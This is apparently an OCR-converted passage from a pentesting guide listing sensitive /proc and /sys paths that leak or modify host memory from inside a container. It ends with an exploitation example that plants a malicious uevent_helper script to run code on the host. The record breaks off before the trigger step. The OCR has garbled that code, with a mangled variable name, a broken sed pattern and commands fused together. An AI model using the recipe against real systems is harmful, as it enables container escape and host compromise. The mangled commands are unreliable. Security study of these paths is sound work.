 #### **`/proc/[pid]/mem`**

- Interfaces with the kernel memory device `/dev/mem`.
- Historically vulnerable to privilege escalation attacks.
- More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Represents the system's physical memory in ELF core format.
- Reading can leak host system and other containers' memory contents.
- Large file size can lead to reading issues or software crashes.
- Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternate interface for `/dev/kmem`, representing kernel virtual memory.
- Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

- Alternate interface for `/dev/mem`, representing physical memory.
- Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

- Returns process scheduling information, bypassing PID namespace protections.
- Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

- Provides information about mount points in the process's mount namespace.
- Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- Used for handling kernel device `uevents`.
- Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
- **Example for Exploitation**: %%%bash

  #### Creates a payload

  echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

  #### Finds host path from OverlayFS mount for container

  host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

  #### Sets uevent_helper to malicious helper

  echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

  #### Triggers a uevent
